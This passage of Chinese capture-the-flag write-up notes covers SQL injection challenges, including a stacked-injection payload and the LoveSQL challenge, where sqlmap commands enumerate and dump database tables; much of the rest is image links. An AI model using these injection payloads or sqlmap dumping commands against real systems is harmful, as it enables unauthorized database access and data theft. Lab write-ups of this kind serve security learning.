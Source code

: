![img](https://i-blog.csdnimg.cn/blog_migrate/0ecb49834e752d5ce43f557606aa858d.png)

![img](https://i-blog.csdnimg.cn/blog_migrate/ca24f89ab48b7eba42c5bbf90844fec3.png)

爆破屏蔽字段，最后发现只能堆叠注入

1；show databases; 

1;show tables;

![image-20250430002458106](D:\ctf wp\161-200.assets\image-20250430002458106.png)

输入 *，1 后，sql语句就变成了 select * , 1 || flag from Flag。

其中分为两部分： (1) select * from Flag(2) select 1 || flag from Flag。

select * from Flag 通过查看表Flag中的所有数据可以 get到flag。


## 195 [极客大挑战 2019]LoveSQL

![image-20250430004203767](D:\ctf wp\161-200.assets\image-20250430004203767.png)

### ![image-20250430004154289](D:\ctf wp\161-200.assets\image-20250430004154289.png)



### ![image-20250430004405301](D:\ctf wp\161-200.assets\image-20250430004405301.png)

union select 1,2 3![image-20250430004721937](D:\ctf wp\161-200.assets\image-20250430004721937.png)

PS D:\sqlmap-master> python sqlmap.py -r C:\Users\lin\Desktop\1.txt -p username --batch --dbs

![image-20250430005200172](D:\ctf wp\161-200.assets\image-20250430005200172.png)

PS D:\sqlmap-master> python sqlmap.py -r C:\Users\lin\Desktop\1.txt -p username --batch -D geek --tables![image-20250430005336055](D:\ctf wp\161-200.assets\image-20250430005336055.png)

sqlmap.py -r 1.txt -p username --batch -D geek -T l0ve1ysq1 --dump

![image-20250430005835683](D:\ctf wp\161-200.assets\image-20250430005835683.png)

## 196.[GXYCTF2019]Ping Ping Ping

![image-20250501202256997](D:\ctf wp\161-200.assets\image-20250501202256997.png)

![image-20250501202325538](D:\ctf wp\161-200.assets\image-20250501202325538.png)

![image-20250501202348318](D:\ctf wp\161-200.assets\image-20250501202348318.png)

![image-20250501203406941](D:\ctf wp\161-200.assets\image-20250501203406941.png)
